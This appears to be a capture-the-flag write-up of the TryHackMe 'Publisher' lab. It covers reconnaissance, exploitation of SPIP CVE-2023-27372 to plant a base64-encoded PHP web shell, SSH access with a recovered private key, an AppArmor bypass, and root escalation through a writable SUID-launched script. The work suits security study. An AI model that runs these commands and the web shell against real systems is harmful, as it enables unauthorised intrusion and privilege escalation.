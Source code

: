 Publisher - TryHackme
In "Publisher", we began by scanning the target with Nmap, identifying an open SSH port and an Apache web server running a SPIP blog. Directory fuzzing led us to a SPIP installation, which we exploited using CVE-2023–27372 to achieve Remote Code Execution (RCE). We then uploaded a web shell, retrieved a private RSA key, and used it to establish SSH access. Privilege escalation was achieved by modifying a script linked to a SUID binary. Despite restrictions from AppArmor and limited directory access, we ultimately bypassed them by exploiting a kernel library, gaining root access.
Lets begin with Nmap scan

nmap 10.10.177.2 -A

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Publisher's Pulse: SPIP Insights & Tips
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

HTTP service is running on port 80 seems to be a blog about a softwate called SPIP
SPIP can refer to Scanning Probe Image Processor software, a content management system, or a separated parents information program.
There's nothing interesting in the template so lets do a directory search

gobuster dir -u http://10.10.177.2/ -w /usr/share/seclists/Discovery/Web-Content/big.txt

We found something interesting called 'SPIP'
We found the version of SPIP using wappalyzer extension(alternatively we can use whatweb).
I found SPIP v4.2.0 - Remote Code Execution (Unauthenticated) on Exploit-db

Exploitation

I have base64 encoded this payload and sent it to the application exploiting our RCE to create for a "shell.php" file:
<?=`$_GET[0]`?>
PD89YCRfR0VUWzBdYD8+

python2 exploit.py -u http://{ip}/spip/ -c 'echo PD89YCRfR0VUWzBdYD8+|base64 -d>shell.php'

We got the id_rsa
Lets give the required permission.
chmod 600 id_rsa

Shell as Think
ssh think@10.10.177.2 -i id_rsa

Shell as root
Lets find SUID that executes with root privilage.
find / -perm -u=s -type f 2>/dev/null

The owner of this binary is root . Due to the bit being set when this binary is run, it will run as the owner , that is root . We have now found out the path to get to root.
Upon running it we get an error from a file named run_container.sh that is present within the /opt directory. This means that the binary is running that script.
Hmmm… its strange.

The script file's owner and group are both root and we as the user think has read, write & execute permissions on the file as think falls under others.
This means that there is something running on the machine that is making the file permissions too under it's control and restricting us. The best way to see what exactly could be going on is to see what services are running on the machine.

Checking for running services:
service --status-all | grep '+'

We found the culprit. apparmor
Apparmor is a Linux security module used to restrict an applications capabilities based on their apparmor profiles.

Lets check shell environment:
ps -p $$ -o args=

getent passwd think
The output of these commands shows that we are indeed on an ash shell.

Explanation:
/usr/sbin/ash flags=(complain): This shows that the profile for the ash binary is in complain mode, where violations are logged but not enforced/blocked.
cp /bin/bash /dev/shm
ls -la /dev/shm

/dev/shm/bash
We are able to copy the bash binary to /dev/shm because we as the user think has read permissions on the bash binary itself as we fall under others, and due to the fact that /dev/shm is writable
This shows that we have successfully bypassed AppArmor's security restrictions that affected the ash shell that we as the user think was on by default.
Writing into run_container.sh
echo 'chmod u+s /bin/bash' > run_container.sh

/usr/sbin/run_container

bash -p
Congratulations! We have successfully completed this machine. Thank you for reading!
